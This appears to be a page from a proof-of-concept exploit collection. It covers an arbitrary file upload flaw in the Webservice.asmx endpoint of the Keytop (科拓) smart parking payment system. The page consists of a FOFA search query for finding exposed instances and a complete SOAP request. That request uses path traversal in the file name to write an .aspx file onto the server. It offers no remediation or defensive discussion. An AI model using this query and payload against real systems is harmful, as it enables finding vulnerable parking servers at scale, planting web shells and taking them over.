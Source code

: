 ## 科拓全智能停车收费系统Webservice.asmx存在任意文件上传

## fofa
```
body="/KT_Css/qd_defaul.css"
```

## poc
```
POST /Webservice.asmx HTTP/1.1
Host: ip
Content-Type: text/xml; charset=utf-8
Content-Length: 455
SOAPAction: "http://tempuri.org/UploadResume"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadResume xmlns="http://tempuri.org/">
      <ip>1</ip>
      <fileName>../../../../test7.aspx</fileName>
      <fileFlow>dGVzdA==</fileFlow>
      <tag>3</tag>
    </UploadResume>
  </soap:Body>
</soap:Envelope>
```
![image](../../images/1535e458-f196-46d7-b63c-f45ba47d85a6.png)
